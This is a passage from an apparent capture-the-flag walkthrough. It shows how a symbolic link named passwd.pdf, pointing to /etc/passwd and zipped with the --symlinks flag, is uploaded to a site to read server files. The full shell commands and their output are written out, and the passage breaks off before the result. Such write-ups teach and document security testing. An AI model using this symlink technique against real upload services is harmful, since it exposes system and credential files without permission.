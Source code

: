 So how will the site handle a symbolic link with a `.pdf` extension? I’ll
create one:

    
    
    oxdf@hacky$ ln -s /etc/passwd passwd.pdf
    oxdf@hacky$ ls -l passwd.pdf 
    lrwxrwxrwx 1 oxdf oxdf 11 Jan  8 18:07 passwd.pdf -> /etc/passwd
    oxdf@hacky$ zip --symlinks passwd.zip passwd.pdf 
      adding: passwd.pdf (stored 0%)
    oxdf@hacky$ unzip -l passwd.zip 
    Archive:  passwd.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
           11  2024-01-08 18:09   passwd.pdf
    ---------                     -------
           11                     1 file
    

It’s important to give `zip` the `--symlinks` argument, or else `zip` will
follow the link and put a copy of my `/etc/passwd` into the archive.

It uploads just fine:

![image-20240108181524507](../img/image-20240108181524507.png)

Clicking the link shows an empty PDF:

![image-20240108181023657](../img/image-20240108181023657.png)

If I look in Burp, I’ll see that’s because the browser is trying to render a
PDF, but the response isn’t a PDF:
